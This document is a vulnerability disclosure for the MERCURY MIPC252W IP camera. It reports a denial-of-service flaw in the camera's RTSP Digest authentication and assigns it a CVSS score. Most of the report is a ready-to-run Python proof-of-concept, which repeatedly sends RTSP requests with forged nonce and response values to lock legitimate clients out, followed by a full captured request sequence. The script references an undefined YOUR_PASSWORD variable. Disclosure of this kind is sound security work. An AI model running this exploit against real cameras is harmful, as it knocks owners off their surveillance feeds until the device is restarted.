





# Information

**Vendor of the products:**  MERCURY

**Vendor's website:**  [https://www.mercurycom.com.cn/](https://www.mercurycom.com.cn/)

**Reported by:**  YanKang

**Affected products:** MIPC252W

**Affected firmware version:** 1.0.5 Build 230306 Rel.79931n

**Firmware download address:** https://service.mercurycom.com.cn/download-2777.html


# Overview

The RTSP service of MERCURY IP camera MIPC252W firmware 1.0.5 Build 230306 contains a state management flaw in handling failed Digest authentication attempts. By repeatedly sending RTSP requests with invalid authentication parameters, an unauthenticated attacker can cause the RTSP service to enter a persistent authentication failure state, preventing legitimate clients from authenticating and leading to a denial of service until the device is restarted.


# POC

After running the PoC, the script establishes an RTSP connection with the target camera and performs the initial RTSP negotiation sequence. It then sends RTSP requests containing intentionally invalid Digest authentication parameters (e.g., fixed nonce and response values) to trigger repeated authentication failures. This abnormal authentication sequence corrupts the RTSP authentication state machine, causing the service to enter a persistent authentication lockout condition in which subsequent legitimate authentication attempts are rejected, resulting in a denial-of-service condition.

```python
#!/usr/bin/env python3
"""
PoC for RTSP Authentication Lockout in MERCURY MIPC252W RTSP Service

Tested device:
- Vendor: MERCURY
- Model: MIPC252W
- Firmware: 1.0.5 Build 230306 Rel.79931n

This code is for authorized security research purposes only.
"""

import socket
import time
import hashlib

CAMERA_IP = "TARGET_IP"
RTSP_PORT = 554
RTSP_URI = f"rtsp://{CAMERA_IP}:{RTSP_PORT}/stream1"

USERNAME = "admin"
REALM = "MERCURY IP-Camera"

HA1 = hashlib.md5(f"{USERNAME}:{REALM}:{YOUR_PASSWORD}".encode()).hexdigest()

def calculate_response(nonce, method, uri):
    ha2 = hashlib.md5(f"{method}:{uri}".encode()).hexdigest()
    return hashlib.md5(f"{HA1}:{nonce}:{ha2}".encode()).hexdigest()

# ==========================================================
# Repeat full abnormal RTSP sequence 10 times
# ==========================================================

for round_id in range(10):

    print(f"\n========== Round {round_id + 1} ==========")

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((CAMERA_IP, RTSP_PORT))

    # 1. OPTIONS
    options_req = (
        f"OPTIONS {RTSP_URI} RTSP/1.0\r\n"
        f"CSeq: 2\r\n"
        f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n\r\n"
    )
    sock.send(options_req.encode())
    time.sleep(0.5)
    print(sock.recv(4096).decode(errors="ignore"))

    # 2. DESCRIBE (unauthenticated)
    describe1_req = (
        f"DESCRIBE {RTSP_URI} RTSP/1.0\r\n"
        f"CSeq: 3\r\n"
        f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
        f"Accept: application/sdp\r\n\r\n"
    )
    sock.send(describe1_req.encode())
    time.sleep(0.5)
    describe_res = sock.recv(4096).decode(errors="ignore")
    print(describe_res)

    # Extract nonce
    nonce = None
    for line in describe_res.split("\r\n"):
        if "nonce=" in line:
            nonce = line.split('nonce="')[1].split('"')[0]
            break

    if not nonce:
        print("[!] Failed to get nonce")
        sock.close()
        continue

    # 3. DESCRIBE (authenticated but intentionally invalid)
    describe2_req = (
        f"DESCRIBE {RTSP_URI} RTSP/1.0\r\n"
        f"CSeq: 4\r\n"
        f"Authorization: Digest username=\"{USERNAME}\", realm=\"{REALM}\", "
        f"nonce=\"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\", "
        f"uri=\"{RTSP_URI}\", "
        f"response=\"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\"\r\n"
        f"Accept: application/sdp\r\n\r\n"
    )
    sock.send(describe2_req.encode())
    time.sleep(0.5)
    print(sock.recv(4096).decode(errors="ignore"))

    # 4. SETUP track1 (invalid auth)
    setup1_req = (
        f"SETUP {RTSP_URI}/track1 RTSP/1.0\r\n"
        f"CSeq: 5\r\n"
        f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
        f"Authorization: Digest username=\"{USERNAME}\", realm=\"{REALM}\", "
        f"nonce=\"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\", "
        f"uri=\"{RTSP_URI}\", "
        f"response=\"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\"\r\n"
        f"Transport: RTP/AVP/TCP;unicast;interleaved=0-1\r\n\r\n"
    )
    sock.send(setup1_req.encode())
    time.sleep(0.5)
    setup_res = sock.recv(4096).decode(errors="ignore")
    print(setup_res)

    # Extract Session ID if exists
    session_id = None
    for line in setup_res.split("\r\n"):
        if line.startswith("Session:"):
            session_id = line.split(":")[1].split(";")[0].strip()
            break

    if session_id:
        # 5. SETUP track2
        setup2_req = (
            f"SETUP {RTSP_URI}/track2 RTSP/1.0\r\n"
            f"CSeq: 6\r\n"
            f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
            f"Authorization: Digest username=\"{USERNAME}\", realm=\"{REALM}\", "
            f"nonce=\"{nonce}\", uri=\"{RTSP_URI}\", response=\"\"\r\n"
            f"Transport: RTP/AVP/TCP;unicast;interleaved=2-3\r\n"
            f"Session: {session_id}\r\n\r\n"
        )
        sock.send(setup2_req.encode())
        time.sleep(0.5)
        print(sock.recv(4096).decode(errors="ignore"))

        # 6. PLAY
        play_req = (
            f"PLAY {RTSP_URI}/ RTSP/1.0\r\n"
            f"CSeq: 7\r\n"
            f"Authorization: Digest username=\"{USERNAME}\", realm=\"{REALM}\", "
            f"nonce=\"{nonce}\", uri=\"{RTSP_URI}/\", response=\"\"\r\n"
            f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
            f"Session: {session_id}\r\n"
            f"Range: npt=0.000-\r\n\r\n"
        )
        sock.send(play_req.encode())
        time.sleep(0.5)

        # 7. TEARDOWN
        teardown_req = (
            f"TEARDOWN {RTSP_URI}/ RTSP/1.0\r\n"
            f"CSeq: 8\r\n"
            f"Authorization: Digest username=\"{USERNAME}\", realm=\"{REALM}\", "
            f"nonce=\"{nonce}\", uri=\"{RTSP_URI}/\", response=\"\"\r\n"
            f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
            f"Session: {session_id}\r\n\r\n"
        )
        sock.send(teardown_req.encode())
        time.sleep(0.5)

    sock.close()
    time.sleep(1)

print("\n[*] PoC finished. RTSP authentication may now be locked.")

```

Below is an example of a complete RTSP request packet from our verification process.

```
OPTIONS rtsp://192.168.0.149:554/stream1 RTSP/1.0
CSeq: 2
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)

DESCRIBE rtsp://192.168.0.149:554/stream1 RTSP/1.0
CSeq: 3
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Accept: application/sdp

DESCRIBE rtsp://192.168.0.149:554/stream1 RTSP/1.0
CSeq: 4
Authorization: Digest username="admin", realm="MERCURY IP-Camera", nonce="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa",     uri="rtsp://192.168.0.149:554/stream1", response="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"        #让认证失败，不能有效通过
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Accept: application/sdp

SETUP rtsp://192.168.0.149:554/stream1/track1 RTSP/1.0
CSeq: 5
Authorization: Digest username="admin", realm="MERCURY IP-Camera", nonce="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa", uri="rtsp://192.168.0.149:554/stream1/", response="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Transport: RTP/AVP/TCP;unicast;interleaved=0-1

SETUP rtsp://192.168.0.149:554/stream1/track2 RTSP/1.0
CSeq: 6
Authorization: Digest username="admin", realm="MERCURY IP-Camera", nonce="14ec1bbf397af99e1da88fbd2deb3d54", uri="rtsp://192.168.0.149:554/stream1/", response="0fa7ea9e90914567ab1da5f93e4baa66"
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Transport: RTP/AVP/TCP;unicast;interleaved=2-3
Session: 5579378E

PLAY rtsp://192.168.0.149:554/stream1/ RTSP/1.0
CSeq: 7
Authorization: Digest username="admin", realm="MERCURY IP-Camera", nonce="14ec1bbf397af99e1da88fbd2deb3d54", uri="rtsp://192.168.0.149:554/stream1/", response="1f7c41e542b5ac60173b74c137d656db"
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Session: 5579378E
Range: npt=0.000-

TEARDOWN rtsp://192.168.0.149:554/stream1/ RTSP/1.0
CSeq: 8
Authorization: Digest username="admin", realm="MERCURY IP-Camera", nonce="14ec1bbf397af99e1da88fbd2deb3d54", uri="rtsp://192.168.0.149:554/stream1/", response="0e7458aa7ee9f65fff386d8c469ea73b"
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Session: 5579378E
```


# Attack Demo

The vulnerability can be triggered by sending a crafted RTSP authentication request sequence containing multiple invalid Digest authentication attempts. After establishing RTSP communication with the device, an attacker repeatedly sends RTSP requests (primarily DESCRIBE and SETUP) with incorrect Digest authentication parameters, such as forged nonce or response values.

When processing these repeated authentication failures, the RTSP service enters an abnormal authentication lockout state. After this state is reached, legitimate RTSP clients are unable to authenticate successfully even when correct credentials are provided. Clients become stuck in repeated authentication prompts, and normal RTSP operations from other clients are also affected, resulting in a denial-of-service condition affecting RTSP access.

This section pertains to reproducing this vulnerability：





The following describes the impact on normal RTSP requests:

`Access the RTSP video stream using the correct username, password, and IP address.`

`Enter the correct username and password for two-factor authentication.`




`We analyzed packet captures of normal requests and found that authentication still fails even when the username, password, and IP address are correct, causing subsequent requests to be interrupted.`






As the target device firmware is closed-source and does not expose debugging symbols or interfaces, source-level state analysis is not available. To demonstrate the reproducibility and real-world impact of the vulnerability, a complete demonstration video is provided showing how the crafted RTSP request sequence repeatedly forces session termination.

A complete proof-of-concept script and a short demonstration video are provided in this repository to illustrate the reliable reproduction of the issue.

https://github.com/izxnfirh8148/CVE_REQUESTS_references/releases/tag/MERCURY_MIPC252W_3th


# Supplement

This vulnerability allows an unauthenticated attacker to trigger a denial-of-service (DoS) condition in the RTSP authentication mechanism by repeatedly sending RTSP requests with invalid Digest authentication parameters (e.g., forged `nonce` or `response` values). Multiple authentication failures drive the RTSP service into an abnormal authentication lockout state in which subsequent authentication attempts are rejected regardless of credential validity.

Successful exploitation prevents legitimate clients from establishing RTSP sessions even with correct usernames and passwords. Clients become stuck in repeated authentication prompts, and normal RTSP access from other clients is also affected. An attacker can repeatedly trigger this condition to continuously disrupt RTSP availability, reducing the accessibility and reliability of the device’s video streaming service in real-world deployment scenarios.

The issue has been assigned a **CVSS v3.1** base score of **6.2(Medium)** with the vector **CVSS:3.1/AV:L/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H**

